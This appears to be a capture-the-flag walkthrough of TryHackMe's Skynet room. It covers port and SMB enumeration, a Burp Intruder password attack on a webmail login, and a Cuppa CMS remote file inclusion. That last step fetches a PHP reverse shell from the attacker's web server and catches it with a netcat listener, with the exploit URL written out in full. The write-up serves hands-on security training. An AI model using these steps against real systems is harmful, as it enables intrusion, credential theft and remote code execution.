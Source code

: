 ## Skynet
---
THM Skynet Room Walkthrough: https://tryhackme.com/room/skynet



## Summary
---
- 



## Difficulties/Lessons Learned
---
- 



## Walkthrough
---
Let's first begin by checking the IP and see if we have a website linked to it.

Visiting the IP leads us to a SKYNET website

![](attachments/Pasted%20image%2020250202211534.png)

Searching does nothing. Let's try enumerating the open ports as well as the subdirectories. 

We will use the following commands

```bash
nmap -sS -sV -sC -Pn 10.10.221.5 


```

Looks like ports 22, 80, 110, 139, 143, and 445 are open and there seems to be a Samba share at 445. 

![](attachments/Pasted%20image%2020250202211735.png)

Gobuster also gives us some subdirectories we can check out.

![](attachments/Pasted%20image%2020250202211909.png)

Let's try enumerating the samba share first with the following command

```bash
smbclient -L //10.10.221.5
```

![](attachments/Pasted%20image%2020250202212048.png)

We have a few shares. Trying to connect to them allows us in the Anonymous share where we can get a file called attention.txt and 3 log files.

Reading the files gives us a message from Miles Dyson which is the same name as the other Samba share we can't access. The log1.txt file also gives us a huge list of what looks like passwords. We may be able to use these on the websites or the other share.

Let's check the directories we got earlier to see if we can find any more info there.

The only page we get access to is squirrelmail with a login prompt. Trying admin/admin doesn't work. Let's try milesdyson with the list we had earlier. It's easier and quicker to test for me than brute forcing the passwords on the smbshare.

![](attachments/Pasted%20image%2020250202214001.png)

We will first capture a login request using burpsuite and then send the request to intruder with the log1.txt file as the password list. I'll also create a quick list of possible usernames in case the login is case sensitive, as well as admin.

![](attachments/Pasted%20image%2020250202214216.png)

Rerouting the web traffic with FoxyProxy to Burpsuite and sending a request gives us this request

![](attachments/Pasted%20image%2020250202214426.png)

After sending it to intruder we have this with the before mentioned payloads.

![](attachments/Pasted%20image%2020250202214534.png)

It looks like we may have a hit. 

![](attachments/Pasted%20image%2020250202214914.png)

Let's try logging in with this information. We are in!

![](attachments/Pasted%20image%2020250202215145.png)

The bottom two email have the same text (one in binary and one in plain text) of some random words, the top email has information about an SMB password.

![](attachments/Pasted%20image%2020250202215256.png)

Let's try logging into the milesdyson share with this since that is who the e-mail is addressed to.

This does not work. The passwords from the password list also do not work.

Let's try connecting via SSH with milesdyson. This also doesn't work.

Let's try connecting to the Samba share as admin or milesdyson. User milesdyson does in fact work!

```bash
smbclient //<TARGET_IP>/milesdyson -U "milesdyson"
```

![](attachments/Pasted%20image%2020250202222028.png)

When checking dir we can see a folder called "notes". Upon inspection it has a files called "important.txt" which I will download with 

```bash
get important.txt
```

Reading it gives us

![](attachments/Pasted%20image%2020250202222257.png)

CMS may stand for Content Management System and the characters may be a domain. Let's see if it is a subdomain of our IP. 

It is a page but it does not help us any further. There are no links on the page. I tried recursively enumerating the subdomains earlier, so let's try that here as well.

![](attachments/Pasted%20image%2020250202222424.png)

```bash
gobuster -u http://10.10.221.5/45kra24zxs28v3yd -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt dir
```

We get a subdomain called /administrator running Cuppa CMS with a login form. Let's try admin/admin and the credentials we learned earlier.

These do not seem to work. Let's see if there is an exploit for Cuppa that is publicly available. A quick google search leads us to https://www.exploit-db.com/exploits/25971

It looks like we can inject a text file that will be read as php and maybe catch a reverse shell. Let's use [pentestmonkeys reverse php script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) since it usually works best for me, set up a listener, and see if this works. We should also host a webserver to upload the payload.

```bash
nc -lvp 4444
```

```bash
python3 -m http.server 80
```

The exploits states the following URL we should use

```bash
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
```

Adjusted that means we should have the following (assuming we are in the /cuppa directory)

```bash
http://10.10.221.5/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.21.101.68/rev.txt?
```

Let's try running this and see if our listener catches a reverse shell.

It does and we can get our first user flag.

![](attachments/Pasted%20image%2020250202224535.png)

